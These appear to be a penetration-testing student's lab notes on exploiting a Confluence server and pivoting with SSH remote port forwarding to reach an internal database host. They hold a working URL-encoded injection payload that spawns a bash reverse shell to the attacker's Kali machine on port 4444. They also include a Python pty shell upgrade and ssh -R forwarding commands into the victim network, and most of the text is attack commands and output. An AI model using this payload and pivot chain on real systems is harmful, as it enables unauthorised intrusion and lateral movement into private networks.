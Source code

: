 ```yaml
---
IP_KALI: 192.168.45.155
IP_CONFLUENCE: 192.168.227.63
PORT_KALI-CONF: "9998"
PORT_PGDB-SHARES: "22"
IP_PGDATABASE: 10.4.227.215
---
```


![[75885fdd313005c908fae1fe43060ddc-PRAT2_4_1_SSHRemotePortForwardingWithCommand.png | 1000]]


curl http://192.168.236.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/<span id="IP_KALI"/>192.168.45.155<span type="end"/>/4444%200%3E%261%27%29.start%28%29%22%29%7D/

Kill whatever process is running on port 22:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo ss -ntplu
Netid  State   Recv-Q  Send-Q    Local Address:Port      Peer Address:Port  Process                                                                     
udp    UNCONN  0       0               0.0.0.0:53019          0.0.0.0:*      users:(("openvpn",pid=14618,fd=3))                                         
tcp    LISTEN  0       128             0.0.0.0:22             0.0.0.0:*      users:(("sshd",pid=223596,fd=3))                                           
tcp    LISTEN  0       128           127.0.0.1:2345           0.0.0.0:*      users:(("sshd",pid=227462,fd=7))                                           
tcp    LISTEN  0       128                [::]:22                [::]:*      users:(("sshd",pid=223596,fd=4))                                           
┌──(kali㉿kali)-[~/Downloads]
└─$ kill 227462
```
Start SSH server on Kali:
```
sudo systemctl start ssh
```

Spawn shell w Python:
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Setup remote port forward:
- ssh -N -R 127.0.0.1:<span id="PORT_KALI-CONF"/>9998<span type="end"/>:<span id="IP_PGDATABASE"/>10.4.227.215<span type="end"/>:<span id="PORT_PGDB-SHARES"/>22<span type="end"/> kali@<span id="IP_KALI"/>192.168.45.155<span type="end"/>
Remote port forwarding to access internal web page on victim:
- ssh -N -R 127.0.0.1:2345:127.0.0.1:8000 kali@<span id="IP_KALI"/>192.168.45.155<span type="end"/>

Confirm our remote port forward port is listening:
```
ss -ntplu
```


